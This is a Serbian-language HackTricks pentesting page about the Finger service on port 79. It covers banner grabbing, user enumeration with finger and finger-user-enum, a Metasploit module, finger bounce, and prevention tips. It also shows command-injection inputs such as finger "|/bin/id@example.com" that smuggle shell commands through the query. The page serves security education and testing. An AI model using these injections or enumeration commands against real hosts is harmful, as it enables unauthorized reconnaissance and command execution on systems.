 # 79 - Pentesting Finger

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **Osnovne informacije**

Program/servis **Finger** se koristi za dobijanje detalja o korisnicima računara. Tipično, pružene informacije uključuju **korisničko ime, puno ime** i, u nekim slučajevima, dodatne detalje. Ovi dodatni detalji mogu obuhvatati lokaciju kancelarije i broj telefona (ako je dostupan), vreme kada se korisnik prijavio, period neaktivnosti (vreme mirovanja), poslednji put kada je korisnik pročitao poštu, i sadržaj korisnikovih planova i projektnih fajlova.

**Podrazumevani port:** 79

```
PORT   STATE SERVICE
79/tcp open  finger
```

## **Enumeracija**

### **Banner Grabbing/Osnovna konekcija**

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### **Enumeracija korisnika**

User enumeration (enumeracija korisnika) je proces identifikacije validnih korisničkih imena na ciljnom sistemu. Ova tehnika se često koristi u fazi pripreme za napad, kako bi se prikupile informacije o korisnicima i njihovim nalozima. Enumeracija korisnika može biti korisna za dalje napade kao što su brute force napadi na lozinke ili ciljano usmereni napadi na određene korisnike.

#### **Metode enumeracije korisnika**

Postoji nekoliko metoda koje se mogu koristiti za enumeraciju korisnika:

1. **Finger service (Finger servis)**: Finger servis je protokol koji omogućava korisnicima da dobiju informacije o drugim korisnicima na sistemu. Korišćenjem finger servisa, napadač može dobiti listu korisničkih imena na ciljnom sistemu.
2. **Usernames guessing (Pogađanje korisničkih imena)**: Napadač može pokušati da pogađa korisnička imena na ciljnom sistemu na osnovu uobičajenih obrazaca ili pretpostavki. Na primer, napadač može pokušati sa uobičajenim korisničkim imenima kao što su "admin", "root" ili kombinacijama imena i prezimena.
3. **Email harvesting (Sakupljanje email adresa)**: Napadač može sakupljati email adrese sa ciljnog sistema kako bi identifikovao korisnička imena. Ovo se može postići skeniranjem web stranica, pretraživanjem javnih baza podataka ili korišćenjem drugih tehnika za prikupljanje email adresa.
4. **Social engineering (Socijalno inženjerstvo)**: Napadač može koristiti socijalno inženjerstvo kako bi dobio informacije o korisnicima i njihovim korisničkim imenima. Ovo može uključivati manipulaciju ljudima putem telefonskih poziva, phishing napada ili drugih tehnika manipulacije.

#### **Prevencija enumeracije korisnika**

Da bi se sprečila enumeracija korisnika, preporučuje se preduzimanje sledećih mera:

* Onemogućiti finger servis ili ograničiti pristup samo određenim korisnicima.
* Koristiti jaka i jedinstvena korisnička imena koja su teška za pogoditi.
* Implementirati mehanizme za sprečavanje brute force napada na lozinke.
* Edukovati korisnike o socijalnom inženjerstvu i phishing napadima kako bi bili svesni potencijalnih pretnji.

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternativno, možete koristiti **finger-user-enum** sa [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), neki primeri:

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

#### **Nmap izvršava skriptu za korišćenje podrazumevanih skripti**

### Metasploit koristi više trikova od Nmap-a

```
use auxiliary/scanner/finger/finger_users
```

### Shodan

* `port:79 USER`

## Izvršavanje komande

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

[Koristite sistem kao preusmerivač prstiju](https://securiteam.com/exploits/2BUQ2RFQ0I/)

```
finger user@host@victim
finger @internal@external
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

